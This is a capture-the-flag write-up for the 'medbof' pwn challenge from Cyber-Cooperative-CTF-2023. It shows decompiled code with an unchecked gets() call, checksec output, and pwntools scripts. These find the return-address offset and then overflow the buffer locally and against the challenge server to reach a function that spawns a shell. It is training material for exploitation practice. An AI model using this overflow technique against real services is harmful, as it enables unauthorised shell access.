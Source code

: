 ```yaml
---
layout: writeup
category: Cyber-Cooperative-CTF-2023
chall_description:
points: 200
solves: 155
tags: Cyber-Cooperative-CTF-2023 pwn pwn/buffer-overflow pwn/ret2win
date: 2023-12-19
comments: false
---
```


a little harder this time  
`nc 0.cloud.chals.io 27380`  

[medbof](https://github.com/Nightxade/ctf-writeups/blob/master/assets/CTFs/Cyber-Cooperative-CTF-2023/pwn/medbof)  

---

We're given an ELF binary, `medbof`. I decompiled with [Dogbolt](https://dogbolt.org/). Here is the relevant Hex-Rays decompilation:  

```c
//----- (0000000000400646) ----------------------------------------------------
int do_system()
{
  return system("/bin/sh");
}

//----- (0000000000400657) ----------------------------------------------------
__int64 do_input()
{
  char v1[32]; // [rsp+0h] [rbp-20h] BYREF

  printf("a little harder this time");
  fflush(_bss_start);
  return gets(v1);
}
// 400520: using guessed type __int64 __fastcall gets(_QWORD);
// 400657: using guessed type char var_20[32];

//----- (0000000000400691) ----------------------------------------------------
int __fastcall main(int argc, const char **argv, const char **envp)
{
  do_input();
  return 0;
}
```

Seems like a simple ret2win. We just need to find the address of the `do_system` function and overwrite the RIP (return address) with that address.  

First, let's run `checksec --file=medbof`:  

```
[*] '/home/nightxade/Documents/ctfsbackup/Cyber Cooperative CTF 2023/exploit/medbof/medbof'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Very few protections enabled.  

`file medbof` returned this:  

```
medbof: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=0b75cdcc9e3da83a9bbdcea25765f38519ce2acc, not stripped
```

The file isn't stripped, i.e. it still has its ELF symbols (this will allow us to get the address of `do_system`).  

Now that we've done the necessary recon, it's time to write an exploit. First, I used pwntools' cyclic function to find the offset of the RIP from our input:  

```py
from pwn import *

p = process('./medbof')
print(p.recvuntil(b'time').decode('ascii'))

p.sendline(cyclic(50))
p.wait()
core = p.corefile
stack = core.rsp
info("rsp = %#x", stack)
pattern = core.read(stack, 4)
rip_offset = cyclic_find(pattern)
info(f'rip offset is {rip_offset}')
```

Basically, what the code above does, is, it runs until the RIP is the next value to be popped off the stack (i.e. when the `do_input` function is about to return), reads that value of the RIP, which should have been overwritten by the cyclic, and finds that value in the cyclic. From this, it is able to determine the offset of the RIP from the input.  

Once we have the offset of the RIP, pwning this program is simple. We just need a buffer of 40 bytes and then the address of the win function. Here was my local exploit implementation:  

```py
from pwn import *
from pwnlib.util.packing import p32

p = process('./medbof')
print(p.recvuntil(b'time').decode('ascii'))

elf = ELF('./medbof')
addr_win = elf.symbols['do_system']
buffer = b'A' * 40
p.sendline(buffer + p32(addr_win))
p.interactive()
```

And here was my corresponding remote solve:  

```py
from pwn import *
from pwnlib.util.packing import p32

p = remote('0.cloud.chals.io', 27380)
print(p.recvuntil(b'time').decode('ascii'))

addr_win = 4195910 # from localsolve.py
buffer = b'A' * 40
p.sendline(buffer + p32(addr_win))
p.interactive()
```

Opening the remote connection in interactive mode provides us the shell. `ls` --> `cat flag.txt` gets us the flag!  

    flag{getting_better_at_hacking_binaries_i_see...}